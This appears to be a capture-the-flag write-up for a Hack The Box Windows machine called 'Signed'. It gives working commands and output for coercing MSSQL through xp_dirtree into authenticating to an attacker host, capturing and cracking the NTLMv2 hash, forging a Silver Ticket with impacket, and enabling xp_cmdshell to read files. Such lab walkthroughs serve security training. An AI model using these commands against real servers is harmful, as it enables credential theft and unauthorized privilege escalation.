

# Signed

```
Difficulty: Medium
Operating System: Windows
Hints: True
```

 **Target:** `10.10.11.90`
 **Service:** Microsoft SQL Server 2022 (1433)


| Step | User / Access                | Technique Used                                                              | Result                                                                                      |
| :--: | :--------------------------- | :-------------------------------------------------------------------------- | :------------------------------------------------------------------------------------------ |
|   1  | (Local / Recon)              | **nmap -sVC 10.10.11.90**                                                   | Discovered only MSSQL (1433) open running Microsoft SQL Server 2022 RTM.                    |
|   2  | scott (guest SQL)            | **impacket-mssqlclient scott:'Sm230#C5NatH'@10.10.11.90**                   | Logged into MSSQL as low-privilege `guest` account.                                         |
|   3  | (attacker)                   | **EXEC xp_dirtree '\\ATTACKER_IP\share' + Responder**                       | Forced MSSQL to authenticate over SMB; captured NTLMv2 hash for `SIGNED\mssqlsvc`.          |
|   4  | (attacker)                   | **hashcat -m 5600 mssqlsvc.hash /usr/share/wordlists/rockyou.txt**          | Cracked `mssqlsvc` service account password.                                                |
|   5  | mssqlsvc (domain account)    | **impacket-mssqlclient -windows-auth SIGNED/mssqlsvc:'<pass>'@10.10.11.90** | Authenticated with valid domain credentials but limited privileges on SQL.                  |
|   6  | (attacker)                   | **SQL enumeration (sys.server_principals, sys.server_role_members)**        | Found `SIGNED\IT` group as SQL sysadmin; enumerated Domain SID and group RIDs.              |
|   7  | (attacker)                   | **Silver Ticket (impacket-ticketer)**                                       | Forged Kerberos TGS for MSSQL service embedding `IT` group RID to gain sysadmin privileges. |
|   8  | mssqlsvc (via forged ticket) | **export KRB5CCNAME=mssqlsvc.ccache + impacket-mssqlclient -k -no-pass**    | Authenticated as `SIGNED\mssqlsvc` with full **dbo/sysadmin** privileges.                   |
|   9  | mssqlsvc (sysadmin)          | **Enable xp_cmdshell (sp_configure)**                                       | Activated OS command execution from SQL shell.                                              |
|  10  | mssqlsvc (sysadmin)          | **xp_cmdshell 'type C:\Users\mssqlsvc\Desktop\user.txt'**                   | Retrieved `user.txt` flag.                                                                  |
|  11  | mssqlsvc (sysadmin)          | **OPENROWSET(BULK 'C:\Users\Administrator\Desktop\root.txt', SINGLE_CLOB)** | Retrieved `root.txt` flag.  |


## Nmap Recon

```
nmap -sVC 10.10.11.90

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-11 21:41 CEST
Nmap scan report for 10.10.11.90
Host is up (0.029s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info:
|   10.10.11.90:1433:
|     Version:
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info:
|   10.10.11.90:1433:
|     Target_Name: SIGNED
|     NetBIOS_Domain_Name: SIGNED
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: SIGNED.HTB
|     DNS_Computer_Name: DC01.SIGNED.HTB
|     DNS_Tree_Name: SIGNED.HTB
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-10-11T19:42:23+00:00; +23s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-11T19:16:20
|_Not valid after:  2055-10-11T19:16:20
Host script results:
|_clock-skew: mean: 22s, deviation: 0s, median: 22s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.77 seconds
```


## Initial Access — MSSQL

**Initial credentials provided**

* **Username:** `scott`
* **Password:** `Sm230#C5NatH`

**Connect to MSSQL**

```bash
impacket-mssqlclient scott:'Sm230#C5NatH'@10.10.11.90
# Logged in as guest user with minimal privileges.
```


## NTLM Hash Capture & Cracking

### Responder setup

We coerce the SQL Server to authenticate to our machine using `xp_dirtree` (extended stored procedure).

```bash
sudo responder -I tun0
```

### Coerce Authentication from MSSQL

From the SQL session:

```sql
EXEC xp_dirtree '\\\\10.10.16.16\\share';
```

This triggers an SMB connection attempt from the SQL Server to the attacker, which Responder captures.

**Captured NTLMv2 Hash (example output):**

```
[SMB] NTLMv2-SSP Client   : 10.129.170.123
[SMB] NTLMv2-SSP Username : SIGNED\mssqlsvc
[SMB] NTLMv2-SSP Hash     : mssqlsvc::SIGNED:9bade5d933cee1b4:091BE064ACDC3C5EF68AFAAA<HASH>
```


### Crack the hash

```bash
hashcat -m 5600 mssqlsvc.hash /usr/share/wordlists/rockyou.txt
# Cracked Password: pur<PASS>
```


## Authenticate with Domain Credentials

With the cracked password for `mssqlsvc`:

```bash
impacket-mssqlclient -windows-auth SIGNED/mssqlsvc:'pur<PASS>'@10.10.11.90
# Still logged in as guest user (on SQL), but now we possess valid domain credentials for mssqlsvc.
```


## SQL Server Enumeration

Query server principals, roles and linked servers.

```sql
-- Check server roles: who is sysadmin?
SELECT r.name AS role_name, mp.name AS member_name
FROM sys.server_role_members srm
JOIN sys.server_principals r ON srm.role_principal_id=r.principal_id
JOIN sys.server_principals mp ON srm.member_principal_id=mp.principal_id
WHERE r.name='sysadmin';

-- Find linked servers
SELECT srv.server_id, srv.name FROM sys.servers srv WHERE srv.name IN ('DC01',@@SERVERNAME);
```


**Notable findings**

* `SIGNED\IT` group has `sysadmin` role on the MSSQL instance.
* Found linked server: `DC01` (domain controller).


## Domain SID Extraction

```
SELECT SUSER_SID();
SID (hex): b'0105000000000005150000005b7bb0f398aa2245ad4a1ca44f040000'

Converting to readable format: - Domain SID: S-1-5-21-4089266779-11675<SID> - User RID: 1103

IT Group SID Discovery

SELECT name, sid FROM sys.server_principals WHERE name = 'SIGNED\IT';
IT Group SID: b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000' - IT Group RID: 1105
```


Python
```
def sid_from_hex(blob):
    b = bytes.fromhex(blob)
    rev = b[0]
    sub_count = b[1]
    id_auth = int.from_bytes(b[2:8], byteorder='big')
    subs = []
    offset = 8
    for i in range(sub_count):
        subs.append(int.from_bytes(b[offset:offset+4], byteorder='little'))
        offset += 4
    sid = "S-{}-{}".format(rev, id_auth) + "".join(f"-{s}" for s in subs)
    domain_sid = "S-{}-{}".format(rev, id_auth) + "".join(f"-{s}" for s in subs[:-1])
    rid = subs[-1] if subs else None
    return sid, domain_sid, rid

blob = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
print(sid_from_hex(blob))
```




## Silver Ticket Attack
Prerequisites

For Silver Ticket generation, we need: 
1. Service account NTLM hash (mssqlsvc) 
2. Domain SID 
3. Target user (Administrator - RID 500) 
4. Service Principal Name (SPN)

Calculate NTLM Hash
```
python3 -c 'import hashlib; print(hashlib.new("md4", "puXXXXXXXXXXXX".encode("utf-16le")).hexdigest())'
```


### System time sync (attacker host)

```bash
sudo ntpdate time.google.com
```

Observed output you provided:

```
2025-10-21 04:43:33.740931 (+0000) +0.014579 +/- 0.048432 time.google.com 2001:4860:4806:c:: s1 no-leap
```

> Note: Accurate system time on the attacker host is important for Kerberos ticket validity.

### Create Silver Ticket (impacket-ticketer)

```bash
impacket-ticketer \
  -nthash ef699384c3285c54128a3ee1ddb1a0cc \
  -domain SIGNED.HTB \
  -domain-sid S-1-5-21-4088429403-1159899800-2753317549 \
  -user-id 1103 \
  -groups 512,519,1105 \
  -spn MSSQLSvc/DC01.SIGNED.HTB:1433 \
  mssqlsvc
```

Observed tool output (captured from your session):

```
/home/z0n/venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal
as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for SIGNED.HTB/mssqlsvc
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in mssqlsvc.ccache
```


### Load ticket and connect to MSSQL using kbr-based ticket

```bash
export KRB5CCNAME=mssqlsvc.ccache
impacket-mssqlclient -k -no-pass DC01.SIGNED.HTB -windows-auth
```


Captured session output (from your run):

```
/home/z0n/venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232)
[!] Press help for extra shell commands
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1   
```

This shows the forged ticket granted `dbo`/`sysadmin` privileges on the instance.

### Enable xp_cmdshell and read user flag

From the SQL prompt you ran:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'type C:\\Users\\mssqlsvc\\Desktop\\user.txt';
```


## Root Flag

Using OPENROWSET(BULK...), we read the root.txt directly from the Administrator’s desktop through SQL.

```
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:\Users\Administrator\Desktop\root.txt', SINGLE_CLOB) AS t;
BulkColumn                                
---------------------------------------   
b'a971XXXXXXXXXXXXXXXXXXXXXXXXXXX\r\n' 
```


## Key Takeaways

* `xp_dirtree` can coerce SMB authentication from SQL Server and leak NTLMv2 hashes.
* Captured service account credentials (NTLM or password) + Domain SID + correct group RIDs allow forging **Silver Tickets** without KDC interaction.
* The PAC must include the necessary group RIDs (e.g., `SIGNED\IT`) for the service to accept elevated privileges.
* With a valid Silver Ticket for `MSSQLSvc/DC01:1433` you can authenticate as a high-privilege account (here `mssqlsvc` with sysadmin) and enable `xp_cmdshell` to access local files.


